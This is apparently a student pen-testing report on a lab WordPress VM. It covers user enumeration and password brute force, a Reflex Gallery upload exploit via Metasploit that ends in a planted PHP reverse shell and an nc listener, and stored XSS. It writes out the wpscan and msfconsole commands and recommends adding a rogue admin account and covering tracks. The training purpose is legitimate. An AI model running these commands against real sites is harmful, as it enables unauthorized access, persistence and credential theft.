 # Project 7 - WordPress Pen Testing

Time spent: **12** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pen Testing Report

### 1. User Enumeration (CVE-2020-7918)

- [ ] Summary: An access control vulnerability arises when usernames are directly referenced. This can be leveraged by advesaries using compromised credentials     
  - Vulnerability types: Insecure direct object reference
  - Tested version: 4.2
  - Fixed version: NOT FIXED
  - Affected source code: (http://wpdistillery.vm/wp-login.php)
  - Tools/Resources Used:
 <br /> https://www.kali.org/get-kali/#kali-virtual-machines
 <br /> https://www.kali.org/tools/wpscan
 <br /> https://wpscan.com/
 <br /> https://nvd.nist.gov/vuln/detail/CVE-2020-7918
 <br /> password list: rockyou.txt
  - Techniques: BruteForce, Dictionary Attack, Credential Stuffing
  - Preventative Action: Password Complexity, Multi-Factor Authentication (MFA), Password Manager, Account Lockout Policy
  - Commands used:
  <br /> sudo gunzip /usr/share/wordlists/rockyou.txt.gz (extract and move for ease of use)
  <br /> wpscan -h (Display the Help)
  <br /> wpscan --url http://wpdistillery.vm (Reconnasissance)
  <br /> wpscan --url http://wpdistillery.vm --enumerate u (Finding Usernames)
  <br /> wpscan --url http://wpdistillery.vm -U ~/Desktop/wpusers.txt -P ~/Desktop/rockyou.txt (BruteForce Attack)
  


- [ ] Walkthrough:
<br /> Where's the Beef ?!?
<img src="user_enum1.gif">
<br /> A Successful Attack against all 5 User Accounts took 2min and 11 seconds !?!
<img src="BruteForce.gif">
<br /> The Damage... We got User credentials, PII, and our very own Administrative Account !?!
<img src="damage.gif">


- [ ] Steps to recreate:
<br /> - Try common usernames in the TARGET's login page, guess common passwords. Maybe we'll get some helpful info. Lets PLAN our attack.
<br /> - Kali is a great toolbox. Lets use our handy dandy tool wpSCAN to gather information on a TARGET. Perfome RECONNAISSANCE.
<br /> - After some poking and proding with WPSCAN lets use our collected INTEL to test our might. Commense Brute Force Attack!!! 
<br /> - Have I been pwned? Lets use the compromised credentials. GAIN ACCESS!!!
<br /> - Lets cause some damage...hmmm how about we just add a way to get back in. Add our own administrator ;). MAINTAIN ACCESS
<br /> - Considerations: COVER YOUR TRACKS!!!
  
### 2. Vulnerable Plugin Reflect Gallery (CVE-2015-4133)

- [ ] Summary: The Pluggin allows for File Uploading, however without proper filtering. Adversies can compromise a victims host via their directory with malicious php file uploads
  - Vulnerability types: Arbitrary File Upload
  - Tested in version: 3.1.3
  - Fixed in version: 3.1.4
  - Tools/Resources Used:
<br /> https://nvd.nist.gov/vuln/detail/CVE-2015-4133
<br /> https://www.kali.org/tools/metasploit-framework/
<br /> exploit/unix/webapp/wp_reflexgallery_file_upload
<br /> https://null-byte.wonderhowto.com/how-to/hack-like-pro-ultimate-command-cheat-sheet-for-metasploits-meterpreter-0149146/
<br /> https://pentestmonkey.net/tools/web-shells/php-reverse-shell
<br /> https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
<br /> https://phoenixnap.com/kb/vim-commands-cheat-sheet
<br /> https://www.kali.org/tools/netcat/

 - Commands used:
  <br /> wpscan --url http://wpdistillery.vm (Reconnasissance)
  <br /> service postgresql start (for msf)
  <br /> msfdb init (for msf)
  <br /> msfconsole (msf)
  <br /> db status (for msf)
  <br /> search reflex (msf exploit)
  <br /> use 0 (select module)
  <br /> show options
  <br /> set RHOST wpdistillery.vm (target)
  <br /> set LHOST 192.168.33.101 (Kali VM)
  <br /> run
  <br /> shell
  <br /> whoami
  <br /> hostname
  <br /> pwd 
  <br /> ls
  <br /> ../
  <br /> pwd 
  <br /> edit /var/www/public/wp-content/themes/twentyfifteen/archive.php
  <br /> :%d
  <br /> :wq
  <br /> exit
  <br /> nc -nvlp 80
  
  
- [ ] Walkthrough:
<br /> Ole Reliable 
<img src="plugins.gif">
<br /> I've always wanted a Swiss Army Knife
<img src="swiss_army_knife.gif">
<br /> I'll be listening for the Door
<img src="backdoor.gif">

- [ ] Steps to recreate:
<br /> - Scan the Target for a weakness.
<br /> - Bring out the right tool for the job. Use Metasploit Framework to attempt an exploit.  
<br /> - Take aim and shoot. Are we in? Cool, leave a way to Maintain Access.Inject a reverse shell.
<br /> - Now, we wait and listen. 
<br /> - Knock Knock...You are now an agent of chaos.
<br />  Considerations: Privilege Escalation should be attempted 

### 3. Authenticated Stored Cross-Site Scripting (CVE-2015-5622)

- [ ] Summary: Cross-site scripting vulnerability allows remote authenticated users to inject arbitrary web script or HTML by leveraging the Author or Contributor role. 
  - Vulnerability types:XSS
  - Tested in version: 4.2
  - Fixed in version: 4.2.3
  - Tools/Resoures Used:
<br /> https://github.com/thelinuxguy001/xss_cheatsheet
<br /> https://nvd.nist.gov/vuln/detail/CVE-2015-5622
- [ ] Walkthrough:
<br /> Whats the big deal? Oh noooooo!!! 
<img src="victim.gif">
<br /> You can't win em all
<img src="XXS.gif">
- [ ] Steps to recreate:
<br /> - You gotta scan your target! WPSCAN quick.
<br /> - Read the INTEL...That means the References, dont be afraid of the rabbit hole.
<br /> - Chasing the white rabbit is hard, lets research!
<br /> - Lets give it a shot now, somethings bound to hit. 


## Assets

https://www.offensive-security.com/offsec/what-it-means-to-try-harder/

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)
- 
GIFs created with  ...

[ScreenToGif](https://www.screentogif.com/) for Windows

## Notes

Setting up the pen testing environment was really challenging. I had a tough time getting windows 10 to play nice with vagrant and virtual box. I persevered, through trial and error. My saving grace was utilizing the snapshot feature when things went wrong. This was key in troubleshooting and documenting solutions along the way. My advice for my fellow colleagues and academics, don’t get discouraged, our failures are our greatest teachers.

Solutions for Common Isssues:

- https://gitforwindows.org/ (required for windows, install it)
- https://notepad-plus-plus.org/ (use to edit config.yml & hosts file as administrator)
- Create a restore point in Virtual Box once wpdistillery is up and running to revert ( Windows Powershell Failure to reboot vm issue, exploits not functioning issue)
- https://www.virtualbox.org/wiki/Download_Old_Builds_6_1 (for MacOS network adapter issues and KERNAL driver not installed)
- For MacOS check Security & Privacy: Allow apps downloaded from: SELECT app store and identified developers (make sure virtual box isnt being blocked)
- For MacOS in VirtualBoX settings disable Audio (virtual machine aborts issue)

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
